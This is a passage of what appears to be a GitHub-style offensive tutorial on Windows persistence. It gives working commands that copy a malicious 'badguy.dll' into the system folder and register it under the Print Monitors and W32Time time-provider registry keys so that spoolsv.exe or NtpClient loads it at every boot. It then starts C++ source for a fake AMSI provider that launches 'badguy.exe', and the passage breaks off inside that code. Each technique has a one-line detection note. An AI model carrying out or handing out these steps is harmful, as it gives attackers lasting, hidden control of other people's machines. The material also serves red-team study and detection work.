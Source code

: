 ```C++
```

Move **badguy.dll** and your compiled binary to *%systemroot%* folder

```powershell
copy C:\path\to\badguy.dll %systemroot%
copy C:\path\to\your_binary.exe %systemroot%
```
Start your binary.

Add your dll to registry
```powershell
reg add "hklm\system\currentcontrolset\control\print\monitors\persistence" /v "Driver" /d "badguy.dll" /t REG_SZ
```
With every system startup the *spoolsv.exe* process will load all the driver DLL files that exist in the Monitors registry key and stored in System32 folder.

#### Detection:

User can see malicious string in reg **HKLM**

</br></br>

## Time providers

 Time providers are implemented in the form of a DLL file which resides in System32 folder. The service **W32Time** initiates during the startup of Windows and loads the w32time.dll. Since the associated service is starting automatically during Windows startup, it can be used as a persistence mechanism.
 
 
```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\path\to\badguy.dll"
```

Add *badguy.dll* to *W32Time* Timeprovider service. NtpClient starts with system for time synsynchronization and will execute your *dll*.

*refer: https://pentestlab.blog/2019/10/22/persistence-time-providers/*

#### Detection:

User can see malicious **dll** in reg of **W32Time**

</br></br>

## AMSI (Antimalware Scan Interface)

The following code represents the fake AMSI provider which upon execution of the trigger will open *badguy.exe*

```C++
#include "stdafx.h"
#include <process.h>
#include <subauth.h>
#include <strsafe.h>
#include <amsi.h>
#include <windows.h>
#include <wrl/module.h>

using namespace Microsoft::WRL;

HMODULE g_currentModule;

typedef void (NTAPI* _RtlInitUnicodeString)(
	PUNICODE_STRING DestinationString,
	PCWSTR SourceString
```